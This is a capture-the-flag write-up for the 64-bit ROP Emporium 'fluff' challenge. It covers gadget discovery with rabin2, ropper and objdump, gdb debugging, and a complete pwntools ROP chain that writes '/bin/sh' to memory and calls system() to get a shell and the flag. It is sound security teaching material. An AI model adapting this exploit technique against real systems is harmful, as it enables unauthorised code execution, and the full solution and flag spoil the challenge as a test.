

#ROP Emporium - 64bit - fluff
https://ropemporium.com/challenge/fluff.html

Challenge Description
Description for fluff on ropemporium:
The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done. If we take the time to consider a different approach we'll succeed.
The goal is to write "/bin/sh" into memory so that we can spawn a shell using system() and read the flag.
The problem is that, whilst there's mov gadget that we can use to write to memory, there's no straightforward of setting up the registers for the mov gadget like there was in write4. Here, we need to find an alternative/indirect way of setting up the registers.
Exploit Outline
1. Overflow the buffer and overwrite RIP at 40 bytes
2. Write "/bin/sh\x00" to the stack
3. Write the address of a writable region of memory onto the stack
4. Pop "/bin/sh\x00" string into register A
5. Pop the address of the writable memory region into register B
6. Use a mov gadget to write the string in register A to the address in register B
7. Pop the string from memory - "/bin/sh\x00" - into RDI and run system(), spawning a shell!
fluff Solution
For this exploit, we'll first create a template script.
We need to find:
• Address of system()
• A pop rdi; ret gadget to pop our string into RDI for use with system()
• A writable memory address
• Gadgets to write value to memory
Following that, we'll look at the gadgets available using objdump and ropper and piece together a way to write a value to memory.
1) Find address of system()
root@city64:~/ctf/ropemporium/fluff# rabin2 -i fluff
[Imports]
Num Vaddr Bind Type Name
1 0x004005d0 GLOBAL FUNC puts
2 0x004005e0 GLOBAL FUNC system
3 0x004005f0 GLOBAL FUNC printf
...
system() is located at 0x004005e0.
2) Find a pop rdi; ret gadget
This gadget will pop our command to be run with system() - /bin/sh - into RDI.
root@city64:~/ctf/ropemporium/fluff# ropper --file fluff --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi
[INFO] File: fluff
...
0x00000000004008c3: pop rdi; ret;
There's a pop rdi; ret at 0x004008c3
3) Find a writable memory address
We need an address we can write our "/bin/sh\x00" string to.
root@city64:~/ctf/ropemporium/fluff# rabin2 -S fluff
[Sections]
Nm Paddr Size Vaddr Memsz Perms Name
00 0x00000000 0 0x00000000 0 ----
...
19 0x00000e10 8 0x00600e10 8 -rw- .init_array
20 0x00000e18 8 0x00600e18 8 -rw- .fini_array
21 0x00000e20 8 0x00600e20 8 -rw- .jcr
22 0x00000e28 464 0x00600e28 464 -rw- .dynamic
23 0x00000ff8 8 0x00600ff8 8 -rw- .got
24 0x00001000 80 0x00601000 80 -rw- .got.plt
25 0x00001050 16 0x00601050 16 -rw- .data
26 0x00001060 0 0x00601060 48 -rw- .bss
...
.data looks good. It's located at 0x00601050.
4) Write the initial exploit script
Write up your exploit so that it'll correctly overflow the buffer and crash the binary.
from pwn import *
# --------- GADGETS ---------
data_addr = p64(0x00601050) # rabin2 -S fluff
pop_rdi_ret = p64(0x004008c3) # pop rdi; ret;
system_addr = p64(0x004005e0) # rabin2 -i fluff
# --------- EXPLOIT ---------
payload = "A"*40
payload += "B"*5
print payload
root@city64:~/ctf/ropemporium/fluff# python initial.py > initial.txt
root@city64:~/ctf/ropemporium/fluff# gdb -q fluff
Reading symbols from fluff...(no debugging symbols found)...done.
gdb-peda$ r < initial.txt
...
Stopped reason: SIGSEGV
0x00000a4242424242 in ?? ()
We now have a base template to work off of.
Clever Use of Gadgets
We need to find a way of writing /bin/sh to memory.
Have a look at the gadgets provided for us in the questionableGadgets function.
root@city64:~/ctf/ropemporium/fluff# objdump -M intel -d fluff
fluff: file format elf64-x86-64
...
0000000000400820 <questionableGadgets>:
400820: 41 5f pop r15
400822: 4d 31 db xor r11,r11
400825: 41 5e pop r14
400827: bf 50 10 60 00 mov edi,0x601050
40082c: c3 ret
40082d: 41 5e pop r14
40082f: 4d 31 e3 xor r11,r12
400832: 41 5c pop r12
400834: 41 bd 60 40 60 00 mov r13d,0x604060
40083a: c3 ret
40083b: bf 50 10 60 00 mov edi,0x601050
400840: 4d 87 d3 xchg r11,r10
400843: 41 5f pop r15
400845: 41 bb 50 20 60 00 mov r11d,0x602050
40084b: c3 ret
40084c: 41 5f pop r15
40084e: 4d 89 1a mov QWORD PTR [r10],r11
400851: 41 5d pop r13
400853: 41 5c pop r12
400855: 45 30 22 xor BYTE PTR [r10],r12b
400858: c3 ret
400859: 0f 1f 80 00 00 00 00 nop DWORD PTR [rax+0x0]
It's not obvious, but we have enough gadgets to write a string to memory here.
Which gadgets to use?
Like the page description for fluff says, try working backwards.
#1 - mov
First, find a suitable mov instruction
mov QWORD PTR [r10],r11
This mov will move the value in r11 to the address pointed to by the value in r10.
This means that our string - /bin/sh\x00 - needs to go in r11.
And the memory address to write to - the address of the .data section - needs to in r12.
r10 = address of .data
r11 = "/bin/sh\x00"
#2 - xor, pop, xor
Next, we need to find a way to put data into registers r10 and r11.
There's 4 intructions we can to use to set up the registers.
xor r11,r11
pop r12
xor r11,r12
xchg r11,r10
Instructions to set up r10 = .data address
• First, we xor r11 with r11, which will empty the register and set r11 to 0 - xor r11, r11
• Next, we pop the .data address into r12 - pop r12.
• Third, we xor r11 with r12 (which contains our .data address) - xor r11,r12
◇ r11 contains our xor key - 0
◇ When you xor a value with 0 (i.e. nothing), the value won't change
◇ The result is that our .data address in r12 gets copied into r11
• Last, we use xchg r11, r10 to move our .data address into r10
Instructions to set up r11 = "/bin/sh\x00"
Setting up r11 is the exact same as above except that we don't need the xchg instruction.
• First, empty r11 with xor r11, r11
• Next, pop the "/bin/sh\x00" string in hex format inro r12 - pop r12
• Last, xor r11 with r12 to copy the "/bin/sh\x00" string from r12 into r11 - xor r11, r12
5) Find Gadget Addresses
We now know the gadgets we need to use in order to write our string to memory.
Go find the addresses of them.
I'm using ropper - https://github.com/sashs/Ropper
root@city64:~/ctf/ropemporium/fluff# ropper --file fluff --search "mov [r10]"
0x000000000040084e: mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret;
root@city64:~/ctf/ropemporium/fluff# ropper --file fluff --search "pop r12"
0x0000000000400832: pop r12; mov r13d, 0x604060; ret;
root@city64:~/ctf/ropemporium/fluff# ropper --file fluff --search "xor r11"
0x0000000000400822: xor r11, r11; pop r14; mov edi, 0x601050; ret;
0x000000000040082f: xor r11, r12; pop r12; mov r13d, 0x604060; ret;
root@city64:~/ctf/ropemporium/fluff# ropper --file fluff --search "xchg"
0x0000000000400840: xchg r11, r10; pop r15; mov r11d, 0x602050; ret;
• mov [r10], r11 is at 0x0040084e
• xor r11, r12 is at 0x0040082f
• pop r12 is at 0x00400832
• xor r11,r12 is at 0x0040082f
• xchg r11,r10 is at 0x00400840
Be careful with these gadgets
You should note that with these gadgets, unlike before, there are trailing instructions before the ret.
This means that, depending on the trailing instruction, you'll have to provide junk data until you reach the ret.
This, as you'll see, will mess with your exploit.
For example,
We're using the xor r11, r11; pop r14; mov edi, 0x601050; ret; gadget.
First, we use the instruction we're wanting to use - xor r11, r11
Next, because of the trailing pop r14, we need to provide junk data that can be popped into r14 - payload += "B"*8
Third, the mov instruction doesn't need any junk data to run, so we don't have to write anything to the stack.
Lastly, we hit the ret and can move on to our next gadget.
6) Write Exploit Script/ROP Chain
We have all the gadgets we need and their addresses. Write up your exploit!
Goal:
Write "/bin/sh" to memory, pop it into RDI and run system()
Plan:
#Part 1 - Put writable memory address - .data - into r10
1. xor r11 with r11, which will empty the register and set r11 to 0 - xor r11, r11
2. pop the .data address into r12 - pop r12.
3. xor r11 with r12 to copy .data address into r11 - xor r11,r12
4. xchg r11, r10 to move our .data address into r10
#Part 2 - Put "/bin/sh\x00" string into r11
1. empty r11 with xor r11, r11
2. pop the "/bin/sh\x00" string in big-endian hex format inro r12 - pop r12
3. xor r11 with r12 to copy the "/bin/sh\x00" string from r12 into r11 - xor r11, r12
#Part 3 - Write "/bin/sh\x00" to memory
1. mov r11 ("/bin/sh" string) into address pointed to by r12 (.data address)
#Part 4 - Run system("/bin/sh")
1. pop "/bin/sh" string into RDI
2. run system()
Exploit Script
from pwn import *
# --------- GADGETS ---------
xor_r11_r11_pop_mov_ret = p64(0x00400822) # xor r11, r11; pop r14; mov edi, 0x601050; ret;
pop_r12_mov_ret = p64(0x00400832) # pop r12; mov r13d, 0x604060; ret;
data_addr = p64(0x00601050) # rabin2 -S fluff
xor_r11_r12_pop_mov_ret = p64(0x0040082f) # xor r11, r12; pop r12; mov r13d, 0x604060; ret;
xchg_r11_r10_pop_mov_ret = p64(0x00400840) # xchg r11, r10; pop r15; mov r11d, 0x602050; ret;
binsh_hex = p64(0x2f62696e2f736800, endianness="big") # /bin/sh\x00
mov_pop_pop_xor_ret = p64(0x0040084e) # mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret;
pop_rdi_ret = p64(0x004008c3) # pop rdi; ret;
system_addr = p64(0x004005e0) # rabin2 -i fluff
# --------- EXPLOIT ---------
payload = "A"*40
# part 1 - Put writable memory address into r10
payload += xor_r11_r11_pop_mov_ret # set r11 to 0
payload += "D"*8 # junk to pop into r14
payload += pop_r12_mov_ret
payload += data_addr # pop writable memory address into r12
payload += xor_r11_r12_pop_mov_ret # xor r11, r12 (r11 now contains writable memory address)
payload += "B"*8 # junk to pop into r12
payload += xchg_r11_r10_pop_mov_ret # exchange r11 with r10 (r10 now holds writable address)
payload += "E"*8 # junk to pop into r15
# part 2 - Put "/bin/sh\x00" string into r11
payload += xor_r11_r11_pop_mov_ret # set r11 to 0
payload += "D"*8 # junk to pop into r14
payload += pop_r12_mov_ret
payload += binsh_hex # pop "/bin/sh\x00" string into r12
payload += xor_r11_r12_pop_mov_ret # xor r11, r12 (r11 now contains /bin/sh string)
payload += "B"*8 # junk to pop into r12
# part 3 - Write "/bin/sh\x00" to memory
payload += mov_pop_pop_xor_ret # write "/bin/sh\x00" to memory address
payload += "C"*8 # junk to pop into r13
payload += "B"*8 # junk to pop into r12
# part 4 - run system("/bin/sh")
payload += pop_rdi_ret
payload += data_addr # pop address of string into rdi
payload += system_addr # run system()
#payload += "B"*5 # crash
print payload
7) Mischevious Gadget
If you run the exploit against the binary, you'll discover that it doesn't work.
root@city64:~/ctf/ropemporium/fluff# (python fluff.py; cat) | ./fluff
fluff by ROP Emporium
64bits
You know changing these strings means I have to rewrite my solutions...
> sh: 1: mbin/sh: not found
id
Segmentation fault
At first glance, the exploit looks fine.
What's messing up our exploit is a trailing instruction from one of our gadgets.
Modify the script above to have the binary crash instead of calling system().
...
# part 4 - run system("/bin/sh")
payload += pop_rdi_ret
payload += data_addr # pop address of string into rdi
#payload += system_addr # run system()
payload += "B"*5 # crash
print payload
Output the payload to a text file and exploit the binary in gdb.
root@city64:~/ctf/ropemporium/fluff# python fluff.py > pwn.txt
root@city64:~/ctf/ropemporium/fluff# gdb -q fluff
...
gdb-peda$ r < pwn.txt
Starting program: /root/ctf/ropemporium/fluff/fluff < pwn.txt
fluff by ROP Emporium
64bits
You know changing these strings means I have to rewrite my solutions...
>
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe140 ('A' <repeats 40 times>, "\"\b@")
RBX: 0x0
RCX: 0xfbad2088
RDX: 0x7fffffffe140 ('A' <repeats 40 times>, "\"\b@")
RSI: 0x7ffff7fad8d0 --> 0x0
RDI: 0x601050 --> 0x68732f6e69626d ('mbin/sh')
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe208 --> 0x7ffff7fe4406 (<_dl_init+118>: cmp ebx,0xffffffff)
RIP: 0xa4242424242 ('BBBBB\n')
R8 : 0x602326 --> 0x0
R9 : 0x77 ('w')
R10: 0x601050 --> 0x68732f6e69626d ('mbin/sh')
R11: 0x68732f6e69622f ('/bin/sh')
R12: 0x4242424242424242 ('BBBBBBBB')
R13: 0x4343434343434343 ('CCCCCCCC')
R14: 0x4444444444444444 ('DDDDDDDD')
R15: 0x4545454545454545 ('EEEEEEEE')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xa4242424242
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe208 --> 0x7ffff7fe4406 (<_dl_init+118>: cmp ebx,0xffffffff)
0008| 0x7fffffffe210 --> 0x0
0016| 0x7fffffffe218 --> 0x0
0024| 0x7fffffffe220 --> 0x400650 (<_start>: xor ebp,ebp)
0032| 0x7fffffffe228 --> 0x7fffffffe250 --> 0x1
0040| 0x7fffffffe230 --> 0x0
0048| 0x7fffffffe238 --> 0x400679 (<_start+41>: hlt)
0056| 0x7fffffffe240 --> 0x7fffffffe248 --> 0x1c
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000a4242424242 in ?? ()
You'll see that r11, where we copied our "/bin/sh" to initially, contains the string just fine.
However, the string pointed to by r10 is wrong - mbin/sh.
This means that our string is being tampered with when it's being copied into memory.
Have a look at the mov gadget and its trailing instructions:
mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret;
The problem is xor [r10], r12b.
The data pointed to by r10 - our "/bin/sh" string - is being xor'ed with lowest 8 bits of the r12 register, which in my exploit is B.
This is what's causing our /bin/sh string to modified to mbin/sh.
To get around this, using the pop r12 instruction just before the xor [r10], r12b, we can pop 0 into r12.
This means that /bin/sh will be xor'ed with 0, and the string won't change.
# part 3 - Write "/bin/sh\x00" to memory
payload += mov_pop_pop_xor_ret # write "/bin/sh\x00" to memory address
payload += "C"*8 # junk to pop into r13
payload += p64(0x0) # junk to pop into r12 - xor key of 0
8) Write Final Exploit Script
Here's my final exploit script.
from pwn import *
# --------- GADGETS ---------
xor_r11_r11_pop_mov_ret = p64(0x00400822) # xor r11, r11; pop r14; mov edi, 0x601050; ret;
pop_r12_mov_ret = p64(0x00400832) # pop r12; mov r13d, 0x604060; ret;
data_addr = p64(0x00601050) # rabin2 -S fluff
xor_r11_r12_pop_mov_ret = p64(0x0040082f) # xor r11, r12; pop r12; mov r13d, 0x604060; ret;
xchg_r11_r10_pop_mov_ret = p64(0x00400840) # xchg r11, r10; pop r15; mov r11d, 0x602050; ret;
binsh_hex = p64(0x2f62696e2f736800, endianness="big") # /bin/sh\x00
mov_pop_pop_xor_ret = p64(0x0040084e) # mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret;
pop_rdi_ret = p64(0x004008c3) # pop rdi; ret;
system_addr = p64(0x004005e0) # rabin2 -i fluff
# --------- EXPLOIT ---------
payload = "A"*40
# part 1 - Put writable memory address into r10
payload += xor_r11_r11_pop_mov_ret # set r11 to 0
payload += "D"*8 # junk to pop into r14
payload += pop_r12_mov_ret
payload += data_addr # pop writable memory address into r12
payload += xor_r11_r12_pop_mov_ret # xor r11, r12 (r11 now contains writable memory address)
payload += "B"*8 # junk to pop into r12
payload += xchg_r11_r10_pop_mov_ret # exchange r11 with r10 (r10 now holds writable address)
payload += "E"*8 # junk to pop into r15
# part 2 - Put "/bin/sh\x00" string into r11
payload += xor_r11_r11_pop_mov_ret # set r11 to 0
payload += "D"*8 # junk to pop into r14
payload += pop_r12_mov_ret
payload += binsh_hex # pop "/bin/sh\x00" string into r12
payload += xor_r11_r12_pop_mov_ret # xor r11, r12 (r11 now contains /bin/sh string)
payload += "B"*8 # junk to pop into r12
# part 3 - Write "/bin/sh\x00" to memory
payload += mov_pop_pop_xor_ret # write "/bin/sh\x00" to memory address
payload += "C"*8 # junk to pop into r13
payload += p64(0x0) # junk to pop into r12
# part 4 - run system("/bin/sh")
payload += pop_rdi_ret
payload += data_addr # pop address of string into rdi
payload += system_addr # run system()
#payload += "B"*5 # crash
print payload
9) Win!
Finally, go win!
root@city64:~/ctf/ropemporium/fluff# (python fluff.py; cat) | ./fluff
fluff by ROP Emporium
64bits
You know changing these strings means I have to rewrite my solutions...
> id
uid=0(root) gid=0(root) groups=0(root)
cat flag.txt
ROPE{a_placeholder_32byte_flag!}
exit
exit
Segmentation fault